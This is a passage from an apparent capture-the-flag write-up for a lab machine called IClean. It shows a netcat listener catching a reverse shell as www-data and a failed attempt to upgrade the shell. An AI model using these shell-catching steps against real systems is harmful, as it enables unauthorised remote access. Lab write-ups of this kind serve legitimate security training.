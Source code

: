 So I will start a nc listener to receive a shell and start the typical one with bash:

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
```

![reverse shell executed](/assets/images/IClean/reverse-shell-executed.png)

And I receive the reverse shell!:

![shell received](/assets/images/IClean/shell-received.png)

The `script /dev/null -c bash` command doesn't work here:

```bash
www-data@iclean:/opt/app$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
This account is currently not available.
Script done.
```
